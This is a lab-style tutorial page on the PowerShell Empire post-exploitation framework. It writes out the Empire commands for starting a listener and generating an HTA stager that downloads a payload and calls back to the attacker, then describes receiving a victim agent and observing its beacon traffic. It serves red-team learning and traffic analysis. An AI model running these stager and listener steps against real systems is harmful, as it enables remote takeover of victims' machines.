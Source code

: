 ```yaml
---
description: Exploring key concepts of the Powershell Empire
---
```


# Powershell Empire 101

## Listener

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
// Empire commands used
?
uselistener meterpreter
info
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/empire-listener.png)

Starting the listener:

```text
execute
```

![](../.gitbook/assets/empire-startlistener.png)

## Stager

Stager will download and execute the final payload which will call back to the listener we set up previously - `meterpreter`- below shows how to set it up and generate:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
//specify what stager to use
usestager windows/hta

//associate stager with the meterpreter listener
set Listener meterpreter

//write stager to the file
set OutFile stage.hta

//create the stager
execute
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/empire-stager%20%281%29.png)

A quick look at the stager code:

![](../.gitbook/assets/stager-hta.gif)

### Issues

Various stagers I generated for the meterpreter listener were giving me errors like [this](https://github.com/EmpireProject/Empire/issues/896) and this:

![](../.gitbook/assets/stager-bat.png)

and this:

![](../.gitbook/assets/stager-vbs.png)

After looking at the traffic and a quick nmap scan, it seems like there may be a bug in Empire's uselistener module when used with meterpreter - for some reason it will not actually start listening/open up the port:

![](../.gitbook/assets/stager-listeners.png)

![](../.gitbook/assets/stager-pcap.png)

To test this assumption, I created another http listener on port 80 - which worked immediately, leaving the meterpeter listener being buggy at least on my system:

![](../.gitbook/assets/stager-http.png)

## Agent

Agent is essentially a victim system that called back to the listener and is now ready to receive commands.

Continuing testing with the `http` listener and a `multi/launcher` stager, the agent is finally returned once the `launcher.ps1` \(read: stager\) is executed on the victim system:

![](../.gitbook/assets/stager-received.gif)

## Beaconing

With default http listener profile set, below are the most commonly used URIs for the agent beaconing back to the listener:

![](../.gitbook/assets/agent-beaconing.png)

The packet data in any of those beacons:

![](../.gitbook/assets/agent-beacon-request-response.png)





{% embed data="{\"url\":\"https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/\",\"type\":\"link\",\"title\":\"How to Use PowerShell Empire: Getting Started with Post-Exploitation of Windows Hosts\",\"description\":\"PowerShell Empire is a post-exploitation framework for computers and servers running Microsoft Windows, Windows Server operating systems, or both. In these tutorials, we will be exploring everything from how to install Powershell Empire to how to snoop around a victim\'s computer without the antivirus software knowing about it. If we are lucky, we might even be able to obtain domain administrator credentials and own the whole network. A Tool for Targeting Windows Exploit frameworks are popular, and most hackers have heard of Metasploit, a framework that automates the deployment of powerful\",\"icon\":{\"type\":\"icon\",\"url\":\"https://img.wonderhowto.com/images/favicons/wonderhowto/favicon-194x194.png\",\"width\":194,\"height\":194,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://img.wonderhowto.com/img/85/10/63638593407829/0/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts.1280x600.jpg\",\"width\":1280,\"height\":600,\"aspectRatio\":0.46875}}" %}


